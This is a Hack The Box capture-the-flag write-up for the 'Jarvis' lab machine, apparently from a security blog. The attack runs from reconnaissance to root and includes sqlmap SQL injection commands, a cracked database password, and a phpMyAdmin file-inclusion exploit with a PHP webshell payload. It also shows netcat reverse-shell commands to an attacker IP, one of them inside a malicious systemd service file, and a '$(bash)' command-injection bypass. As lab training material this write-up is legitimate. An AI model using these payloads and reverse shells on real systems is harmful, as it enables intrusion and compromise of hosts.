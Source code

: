```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Jarvis"
tags: ['linux','medium','sudo','setuid','sqli','phpmyadmin','python']
layout: PostSimple
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/1.png)

We are going to pwn Jarvis from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/194](https://www.hackthebox.eu/home/machines/profile/194)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 4.2 (94%), Linux 3.12 (93%), Linux 3.8 - 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

It looks like a normal webpage. So better we try bruteforcing the directories.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/2.png)

Got some details on the bottom of the page.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/3.png)

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/03 19:14:12 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/03 19:15:59 Finished
===============================================================
```

``/phpmyadmin``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/4.png)
Tried with default credentials ``Username: root Password: [null]`` but failed so better we try to enumerate more.

In the webpage clicking on ``Rooms`` it redirects to ``rooms-suites.php`` and by clicking any of those rooms it redirects to ``/room.php`` with a parameter called cod that holds the room number.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/5.png)

So I started SQLMAP with the url. There is some kind of filter which Ban us for 90 seconds.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/6.png)

>sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/7.png)
And it give me some payload. It Looks like SQL Injection using UNION is there.

### What is SQL Injection using UNION?
>When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database.

> sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3 --password

Got ``DBadmin`` hash.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/9.png)

I cracked that using [CrackStation](https://crackstation.net/)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/10.png)

``/phpmyadmin``[br/](br/)

``DBadmin:imissyou``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/11.png)

Found Phpmyadmin's version so search for any exploit available.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/12.png)

>[https://www.exploit-db.com/exploits/44928](https://www.exploit-db.com/exploits/44928)

According to the exploit we need to inject the payload in SQL Query.[br/](br/)
```select '[?php system($_GET["cmd"]);?](?php system($_GET["cmd"]);?)'```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/13.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/14.png)

Now we need to get the Session ID of phpMyAdmin.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/15.png)

``http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_8271hfci8stuji9h69a2huedmt4dt75e&cmd=ls``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/16.png)

Its working lets try to get reverse shell!

## Shell as www-data

``nc -e /bin/sh 10.10.14.19 1234``

I got the shell as ``www-data``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/17.png)


I started with ``sudo -l`` and looks like we can run ``simpler.py`` as pepper without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/18.png)

Lets see how ``simpler.py`` works[br/](br/)
```
python simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
```
While checking the python code, I found a Interesting thing:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It takes the input and ping the command we send and it also forbidden ``['&', ';', '-', '`', '||', '|']`` these symbols to prevent us to do some other commands.But they didn't filtered ``$``, we can use this by ``$(command)``. I did ``$(bash)`` and got the user ``pepper``.

```
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(bash)
127.0.0.1 $(bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper@jarvis:/var/www/Admin-Utilities$
pepper
```

## Privilege Escalation

Started my enumeration script and found there is a SUID binary.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/19.png)

I checked [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), According to that we need to create a service that executes a file of our choice when it enables.
I created a service called ``test.service`` in my machine and uploaded that to the box.

``test.service``
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.19 5555"
[Install]
WantedBy=multi-user.target
```

Uploaded the script to the box and gave executable permission. Now we need to link the service first and then enable the service which executes it.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/20.png)

Started my listener[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/21.png) [br/](br/)
I'm Root

